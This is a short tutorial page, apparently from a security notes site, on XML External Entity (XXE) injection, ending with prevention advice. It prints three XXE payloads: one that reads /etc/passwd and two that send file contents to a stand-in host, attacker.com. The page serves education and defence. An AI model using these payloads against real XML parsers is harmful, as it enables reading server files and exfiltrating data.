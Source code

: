 ```yaml
---
title: XML External Entity (XXE) Injection
draft: false
date: 2025-01-01
tags:
  - owasp
  - xml
  - xxe
  - injection
  - file_inclusion
  - xml_injection
---
```


XML External Entity (XXE) vulnerabilities happen when an application uses XML input that refers to external things. By changing these external entity declarations, attackers can read local files or start network requests from the server. In very bad cases, they can even control the computer from far away. XXE usually takes advantage of parsing libraries or features in XML processors that automatically get external resources without checking them well enough.

These attacks are very dangerous because XML parsers might automatically expand entities, download remote content, or even look at system files. If an attacker can control or give XML data (like through file uploads or API calls), and the server doesn't set up its XML parser safely, the attacker can use XXE to steal sensitive data or interact with internal services.

A typical XXE attack might include a DOCTYPE declaration that refers to a system file:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [\
  <!ENTITY xxe SYSTEM "file:///etc/passwd">\
]>
<root>
  <data>&xxe;</data>
</root>
```

When an unsafe XML parser uses this, it tries to read `/etc/passwd` from the server's file system and then puts its content in the parsed output. The attacker can then access sensitive local files.

Attackers can make an XML parser load an external resource from a remote server that they control:

```xml
<!DOCTYPE foo [\
  <!ENTITY xxe SYSTEM "http://attacker.com/secret?file=/etc/passwd">\
]>
<root>
  <data>&xxe;</data>
</root>
```

Even if the application's response doesn't directly return the file contents, the attacker's server receives a request that reveals information (like which files exist or open ports) or steals data, depending on how the parser works.

Some XML parsers allow special entities in the DTD, which can be used to sneak in harmful payloads or access environment variables:

```xml
<!DOCTYPE root [\
  <!ENTITY % file SYSTEM "file:///etc/hostname">\
  <!ENTITY % eval "<!ENTITY exfil SYSTEM 'http://attacker.com/?host=%file;'>">\
  %eval;\
]>
<root>&exfil;</root>
```

This sequence can start network requests that contain sensitive server data to an external URL.

Here are some ways to prevent XXE attacks:

1. **Disable External Entity Resolution**
- Set up the XML parser to not allow or ignore external entities.
- For example, in Java, disable DTDs and set `XMLConstants.FEATURE_SECURE_PROCESSING` to true.
- Each language or parser usually has settings or flags to turn off external entity expansion.
1. **Use Less Complex Data Formats**
- If possible, don't use XML and its complex features.
- Consider using JSON or other formats that don't include entity expansion by default, which reduces the risk of attack.
1. **Implement Whitelisting and Validation**
- If external entities are really needed, make a list of allowed resources or schemas.
- Check XML input against a safe schema that doesn't allow external references.
1. **Enforce Least Privilege and Sandboxing**
- Run the application with the fewest file system and network permissions possible, so that even if XXE is tried, it has limited access to files or internal endpoints.
- Use containerization or chroot environments to limit the application's view of the file system.
